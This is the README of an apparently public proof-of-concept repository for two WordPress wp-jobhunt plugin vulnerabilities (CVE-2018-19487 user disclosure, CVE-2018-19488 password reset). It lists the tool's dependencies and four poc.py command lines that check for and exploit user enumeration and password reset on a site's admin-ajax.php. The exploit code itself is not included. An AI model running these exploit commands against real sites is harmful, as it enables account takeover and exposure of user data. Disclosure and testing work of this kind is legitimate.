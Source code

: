 # wp-jobhunt-exploit
CVE-2018-19487, CVE-2018-19488, exploit for WordPress wp-jobhunt plugin

wp-jobhunt plugin is a plugin used with JobCareer theme:

https://themeforest.net/item/jobcareer-job-board-responsive-wordpress-theme/14221636 (see changelog at the bottom)


Python exploit for **CVE-2018-19487** (AJAX user information disclosure) and **CVE-2018-19488** (AJAX user reset password) for version 2.2 and before.


**REQUIREMENTS:**
- requests
- urllib
- json


**HOW TO USE:**

Check if vulnerable to user enumeration:

```python poc.py --checkenum https://wpsite/path/to/wp-admin/admin-ajax.php```


Check if vulnerable to user reset pass:

```python poc.py --checkreset https://wpsite/path/to/wp-admin/admin-ajax.php```


Exploit user enumeration:

```python poc.py --enum https://wpsite/path/to/wp-admin/admin-ajax.php```


Exploit user reset password:

```python poc.py --reset https://wpsite/path/to/wp-admin/admin-ajax.php```
